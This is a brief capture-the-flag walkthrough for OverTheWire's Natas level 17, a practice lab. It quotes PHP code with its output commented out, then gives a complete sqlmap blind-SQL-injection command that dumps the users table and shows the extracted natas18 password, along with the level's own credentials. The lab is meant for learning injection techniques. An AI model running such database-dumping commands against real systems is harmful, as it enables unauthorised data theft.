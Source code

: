 # Natas Level 17
The ***URL*** to which you need to connect is *http://natas17.natas.labs.overthewire.org*. The ***username*** is *natas17* and the ***password*** is *8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw*. 

Lets check the [viewsource](http://natas17.natas.labs.overthewire.org/index-source.html) link.
We See that there's some errors in the code : (comments instead of code)
```php
$res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```

lets try to use [SQLMap](http://sqlmap.org/) to inject some SQL. Here's a [cheat sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet) to the tool. 

```
sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --data=username=natas18 --auth-type=basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --level=5 --risk=3  --dbms=mysql -D natas17 -T users --dump
```
```
```
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| natas18  | xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP |
+----------+----------------------------------+
```
```
